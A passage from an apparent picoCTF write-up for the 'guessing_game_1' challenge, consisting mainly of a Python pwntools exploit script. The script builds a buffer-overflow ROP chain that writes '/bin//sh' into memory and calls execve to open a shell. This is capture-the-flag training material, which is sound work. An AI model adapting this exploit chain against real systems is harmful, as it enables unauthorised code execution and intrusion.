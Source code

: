 ```python

# data section address 0x6b7000 (+ 0x60c for safety overwrite)
data_addr = 0x6b760c

padding = "a"*120
payload = padding
payload += p64(pop_rax)
payload += p64(data_addr)
payload += p64(pop_rdx)
payload += "/binabcd"               #<- abcd is padding
payload += p64(mov_data)

payload += p64(pop_rax)
payload += p64(data_addr + 4)
payload += p64(pop_rdx)
payload += "//shefgh"               #<- efgh is padding
payload += p64(mov_data)

payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(syscall)

p.sendline(payload)
p.interactive()
```

## Result

![img](/picoCTF/guessing_game_1/assets/result.png)
